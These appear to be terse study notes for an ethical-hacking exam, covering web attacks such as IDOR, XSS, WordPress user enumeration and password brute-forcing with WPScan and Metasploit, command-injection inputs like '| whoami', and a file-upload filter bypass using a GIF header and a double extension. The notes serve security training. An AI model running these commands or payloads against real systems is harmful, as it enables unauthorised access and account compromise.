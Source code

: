 1) Parameter Tampering = changing the last parameter = IDOR 
2) XSS = cross site scripting 
3) Enumeration and Hacking a web Application Using WPscan and metasploit  we can also use nmap to enumerate the users in wordpress 
	1) Commands for WPSCAN
		1) wpscan --url https://example/ --enumerate u (To enumerate the user) 
		2) wpscan --url http://172.16.0.27:8080/CEH/ -u james -P /path/pass.txt

	2) Commands for  metasploit 
		1) use auxiliary/scanner/http/wordpress_login_enum
		2) options
		3) run
4) Exploiting remote command execution
	1) for command injection
		1)  |  hostname
		2) | whoami
		3) | net user

5) Vega 
	1) Add IP see the vuln

6) Acunetix 
	1) vuln scanner

7) Upload Vuln 
	1) all were easy 
	2) in one at GIF98 to the end of file to upload it and rename it as upload.php.jpg
	3) https://techsphinx.com/hacking/hacking-for-beginners-file-upload-vulnerability/

8) Command injection will see in paper 
9) CSRF 
	1) we will se in paper 

